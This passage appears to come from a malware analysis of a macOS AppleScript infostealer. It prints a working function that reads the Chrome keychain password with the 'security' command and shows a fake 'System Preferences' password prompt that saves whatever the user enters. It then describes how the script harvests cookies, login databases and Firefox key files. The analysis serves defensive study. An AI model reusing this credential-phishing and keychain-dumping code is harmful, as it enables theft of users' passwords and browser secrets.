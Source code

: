 ```plaintext
on getpwd(username, writemind)

    try

        if checkvalid(username, "") then

            set result to do shell script "security 2>&1 > /dev/null find-generic-password -ga \"Chrome\" | awk \"{print $2}\""

            writeText(result as string, writemind & "masterpass-chrome")

        else

            repeat

                set result to display dialog "Required Application Helper.\nPlease enter password for continue." default answer "" with icon caution buttons {"Continue"} default button "Continue" giving up after 150 with title "System Preferences" with hidden answer

                set password_entered to text returned of result

                if checkvalid(username, password_entered) then

                    writeText(password_entered, writemind & "pwd")

                    return password_entered

                end if

            end repeat

        end if

    end try

    return ""

end getpwd
```
#### 4. File and Data Collection
**a. Browser Data Collection**
- **Chromium-Based Browsers** :
    - The script iterates over a list of Chromium-based browsers (e.g., Chrome, Brave, Edge, Opera, etc.) and collects sensitive files such as:
        - Cookies
        - Login Data
        - Web Data
        - IndexedDB
        - Local Extension Settings
    - It uses the `grabPlugins` function to handle IndexedDB and Local Extension Settings for specific plugins.
- **Firefox-Based Browsers** :
    - The script collects data from Firefox, Waterfox, and Pale Moon profiles, including:
        - Cookies
        - Form history
        - Key database (`key4.db`)
        - Login data (`logins.json`)
    - This data is saved in a subdirectory named `ff/`.
